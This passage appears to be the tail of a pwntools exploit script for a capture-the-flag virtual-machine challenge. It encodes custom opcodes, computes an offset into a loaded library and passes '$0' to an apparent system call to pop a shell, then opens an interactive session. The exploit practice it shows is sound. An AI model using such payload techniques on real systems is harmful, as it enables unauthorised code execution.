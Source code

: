 ```Python
    return p8(115) + p16(imm)

def op_magic(rs, imm):
    return p8(75) + p8(rs) + p16(imm)

def op_puts():
    return b"I"

data = flat([
    op_add(0, 10, 0),
    op_mov_i(1, 0x63),
    op_mov_i(2, 0x1000),
    op_mov_i(3, 0xd70),
    op_mul(1, 2, 1),
    op_add(1, 3, 1),
    op_add(0, 1, 0),
    op_sdup(48, 0),
    op_magic(0, u16("$0")),
    op_puts(),
], filler=b"\x00")
count = 10

io.sendline(tob(0))
io.sendline(tob(len(data)))

io.send(data)

io.interactive()

```
